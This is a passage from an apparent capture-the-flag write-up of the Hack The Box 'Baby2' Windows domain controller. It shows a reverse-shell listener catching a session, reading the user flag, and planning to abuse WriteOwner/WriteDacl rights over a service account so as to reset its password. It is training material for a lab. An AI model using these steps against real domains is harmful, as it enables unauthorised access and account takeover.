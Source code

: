 ```text
❯ penelope
[+] Listening for reverse shells on 0.0.0.0:4444 →  127.0.0.1 • 192.168.226.139 • 172.17.0.1 • 10.10.14.148 • 172.18.0.1
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from DC~10.129.234.72-Microsoft_Windows_Server_2022_Standard-x64-based_PC 😍️ Assigned SessionID <1>
[+] Added readline support...
[+] Interacting with session [1], Shell Type: Readline, Menu key: Ctrl-D 
[+] Logging to /home/kali/.penelope/sessions/DC~10.129.234.72-Microsoft_Windows_Server_2022_Standard-x64-based_PC/2025_10_03-22_02_03-363.log 📜
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
PS C:\Windows\system32> whoami
baby2\amelia.griffiths
PS C:\Windows\system32>
```

### User flag
User shell obtained. The user flag is in a non-standard place—right in `C:\`.
```powershell
PS C:\Windows\system32> get-content C:\user.txt
<REDACTED>
PS C:\Windows\system32>
```

# Privilege Escalation
From Amelia’s session I enumerate groups and local filesystem. Nothing spicy in `C:\Users` but the group membership is interesting:
- Custom domain groups: `office`, `legacy`

I pivot back to BloodHound and explore edges from those groups. The **`legacy`** group is the key: it gives `WriteOwner`/`WriteDacl` over the **`GPOADM`** service account and over the **GPO-Management OU**.

![](/img/htb_img/BabyTwo_img/img3.png)

That means from Amelia’s context I can **delegate myself control** over `GPOADM`, then **change its password**.
